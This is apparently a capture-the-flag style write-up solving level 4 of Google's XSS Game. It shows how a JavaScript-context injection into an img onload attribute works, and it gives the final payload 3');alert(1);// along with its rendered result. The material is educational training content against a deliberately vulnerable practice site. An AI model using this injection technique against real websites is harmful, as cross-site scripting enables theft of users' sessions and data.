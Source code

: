 ```markdown
### 🧪 Google XSS Game - Level 4

#### 🎯 Mission Description
Every piece of user-supplied data must be properly escaped depending on the context it's placed in. This level shows why that matters.

#### 🎯 Mission Objective
Inject JavaScript code that triggers an `alert()` popup.

```
### 🪜 Steps

- We checked the source code and found this line:

  ```html
  <img src="/static/loading.gif" onload="startTimer('3');" />
  

- This is where we’ll inject our payload — specifically inside the `onload` attribute.

- First attempt was:

  ```
  X">x
  ```

  Which resulted in:

  ```html
  <img src="/static/loading.gif" onload="startTimer('X&quot;&gt;x');" />
  ```

  So the special characters were escaped, and the attempt failed.

- Instead, we decided to break the `startTimer()` function itself and inject our code inside the JavaScript context.

- First, we closed the string and function with:

  ```
  3');
  ```

- Then injected:

  ```
  alert(1);
  ```

- And finally closed off the rest of the line using:

  ```
  //
  ```

---

### 💣 Final Payload

```
3');alert(1);//
```

And it gets rendered as:

```html
<img src="/static/loading.gif" onload="startTimer('3');alert(1);//');" />
```

---

### 🧠 Notes

- This is an example of XSS within JavaScript context.
- You don’t always need to break out of an HTML attribute — sometimes injecting inside the script logic itself is more effective.
- Always analyze the context of the injection point before crafting your payload.

---

**Status: Solved ✅**

